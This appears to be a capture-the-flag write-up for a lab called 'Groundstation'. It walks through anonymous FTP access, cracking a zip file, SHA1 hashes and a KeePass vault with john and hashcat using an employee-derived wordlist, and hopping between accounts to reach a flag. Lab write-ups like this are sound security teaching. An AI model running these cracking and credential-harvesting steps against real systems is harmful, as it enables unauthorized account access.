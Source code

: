 ## Groundstation

We see that an ftp server is exposed on port `2121`:

```shell
nmap -sV [IP] -p2121 -Pn
```
Anonymous login is enabled, so we can just use `anonymous` as the username.

```shell
ftp anonymous@[IP] 2121
```

let's see what's in there:

```shell
ls
cd fancyMail
ls
cd daily
ls
cd attachments
ls
```

The zip file looks interesting, so we can download it:

```shell
recv attachment_2025-03-18_120008.zip
```

The file is password protected, we can try cracking it with john the ripper:

```shell
zip2john attachment_2025-03-18_120008.zip > zip.hash
john  --wordlist=rockyou.txt zip.hash
```

The password turns out to be `lovealfred`. We see a badge with a QR code inside the zip:
that QR code is the ftp password for the `hr` user: `Hum4nR3s2025!#`.
Let's login with `hr` and see what we can find:

```shell
ftp hr@[IP] 2121
ls
recv employees_2025.xlsx
ls ESAP_ASAP
recv esap_sso_change_request.xlsx
```

The `esap_sso_change_request.xslx` file contains some hashes and some other info. Two of those ashes are easily crackable, but they turn out to be useless. The others do not crack with rockyou. Let's see if we can leverage the information we have to create a new wordlist to use against the hashes that we could not crack.
We can take the contents of `employees_2025.xlsx` and create a `employees_wordlist.txt` file that we can mutate to make such a list. Here's the result with no repetitions:

    alex.wang
    alex.wang@groundstation.gov
    amelia.clarke
    amelia.clarke@groundstation.gov
    David Thompson
    david.thompson
    david.thompson@groundstation.gov
    Director of Research
    Dr. Alex Wang
    Dr. Amelia Clarke
    Dr. Emily Rodriguez
    Dr. Isabella Smith
    Dr. Lucas Johnson
    Dr. Marcus Nguyen
    Dr. Ryan Patel
    Dr. Sophia Lee
    Emily Brown
    emily.brown
    emily.brown@groundstation.gov
    emily.rodriguez
    emily.rodriguez@groundstation.gov
    Frank Smith
    frank.smith
    frank.smith@groundstation.gov
    Helpdesk
    Helpdesk Manager
    Helpdesk Operator
    HR
    HR Assistant
    HR Coordinator
    HR Manager
    HR Specialist
    isabella.smith
    isabella.smith@groundstation.gov
    Jennifer Wilson
    jennifer.wilson
    jennifer.wilson@groundstation.gov
    Jessica Miller
    jessica.miller
    jessica.miller@groundstation.gov
    John Wilson
    john.wilson
    john.wilson@groundstation.gov
    Kevin Lee
    kevin.lee
    kevin.lee@groundstation.gov
    lucas.johnson
    lucas.johnson@groundstation.gov
    marcus.nguyen
    marcus.nguyen@groundstation.gov
    Michael Davis
    michael.davis
    michael.davis@groundstation.gov
    Research
    Research Assistant
    Researcher
    ryan.patel
    ryan.patel@groundstation.gov
    Samantha Harris
    samantha.harris
    samantha.harris@groundstation.gov
    Sarah Johnson
    sarah.johnson
    sarah.johnson@groundstation.gov
    Security
    Security Manager
    Security Officer
    Senior Researcher
    sophia.lee
    sophia.lee@groundstation.gov

We can try cracking the two hashes now. Let's see what happens with `8da2f9fc1ac55bbf0baa2ee128bd904e2d8f86df`:

```shell
hashcat -a 0 -m 100 8da2f9fc1ac55bbf0baa2ee128bd904e2d8f86df employees_wordlist.txt -r rules/best64.rule
```

Found the password for the `security` user: `david.thompson88`. Let's login and pillage.

```shell
ftp security@[IP] 2121
```

No files seem interesting. Let's look for hidden files by using `ls -a`:

```shell
ls -a
cd sys_dumps_daily
ls -a
cd helpdesk
ls -a
recv .bash_history
```

Oh nice now we have the credentials for the `helpdesk`: `H3lpd3skH3ro3s123!`.

```shell
ftp helpdesk@[IP] 2121
ls
recv default.kdbx
```

it's a keepass file. we can extract its hash with `keepass2john`:

```shell
keepass2john default.kdbx > keepass.hash
```

let's remove the `default:` prefix in the hash file and then we can crack it with hashcat:

```shell
hashcat -a 0 -m 13400 -o cracked_output.txt --outfile-format 2 keepass rockyou.txt
```

The password is `qwertyuiop123`. we can now open the file with keepass, where we can find the `research:ScienceGeekSquad#2025!` credentials. Now:

```shell
ftp research@[IP] 2121
ls
recv portal.txt
```

`portal.txt` will contain the flag.

